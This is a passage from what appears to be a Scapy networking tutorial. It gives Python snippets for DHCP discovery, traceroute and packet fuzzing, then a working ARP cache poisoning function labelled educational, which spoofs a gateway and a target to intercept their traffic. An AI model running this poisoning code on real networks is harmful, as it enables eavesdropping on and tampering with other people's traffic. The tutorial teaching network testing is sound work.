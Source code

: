 ```python
            print(f"[+] DHCP Server: {received[IP].src}")
            print(f"    Offered IP: {received[BOOTP].yiaddr}")

# Usage
dhcp_discover()
```

### Traceroute

```python
from scapy.all import traceroute

# Simple traceroute
result, unans = traceroute("www.example.com", maxttl=20)

# With graph output (requires graphviz)
result.graph(target="traceroute.png")

# TCP traceroute
result, unans = traceroute(["www.example.com"], dport=80, maxttl=20)
```

### Packet Fuzzing

```python
from scapy.all import send, IP, TCP, fuzz

# Fuzz TCP layer
send(IP(dst="192.168.1.1")/fuzz(TCP(dport=80)))

# Fuzz specific fields
send(IP(dst="192.168.1.1")/TCP(dport=80, flags=RandShort()))
```

### ARP Poisoning (Educational Only!)

```python
from scapy.all import sendp, Ether, ARP
import time

def arp_poison(target_ip, gateway_ip, iface="eth0"):
    """ARP cache poisoning"""
    target_mac = getmacbyip(target_ip)
    gateway_mac = getmacbyip(gateway_ip)
    
    while True:
        # Tell target we are the gateway
        sendp(Ether(dst=target_mac)/ARP(op="is-at", psrc=gateway_ip, 
              pdst=target_ip, hwdst=target_mac), iface=iface, verbose=0)
        
        # Tell gateway we are the target
        sendp(Ether(dst=gateway_mac)/ARP(op="is-at", psrc=target_ip, 
              pdst=gateway_ip, hwdst=gateway_mac), iface=iface, verbose=0)
        
        time.sleep(1)

# ⚠️ WARNING: Only use on networks you own!
```

---